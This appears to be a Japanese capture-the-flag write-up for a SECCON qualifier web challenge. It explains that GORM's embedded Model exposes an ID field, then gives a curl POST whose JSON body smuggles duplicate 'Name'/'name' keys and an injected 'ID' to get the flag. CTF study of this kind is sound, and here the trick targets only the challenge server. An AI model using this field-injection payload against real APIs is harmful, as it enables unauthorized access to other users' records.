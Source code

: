 また公式のリファレンスには以下のような記述がある
```
type User struct {
  gorm.Model
  Name string
}
// equals
type User struct {
  ID        uint           `gorm:"primaryKey"`
  CreatedAt time.Time
  UpdatedAt time.Time
  DeletedAt gorm.DeletedAt `gorm:"index"`
  Name string
}
```

これからgorm.ModelはIDという要素を持っている
この仮定の下以下のコードを入力するとFLAGが出力
```
curl -X POST -d '{"Name": "hoge", "name": "", "ID": 14}' https://vulnerabilities.quals.seccon.jp/api/vulnerability
```
curlコマンドについて補足
curl [options] [URL]
HTTPメソッドの指定（-X）
HTTPBodyにパラメーターを設定してPOST（-d)
※ファイルで指定する場合は@ファイル名とする
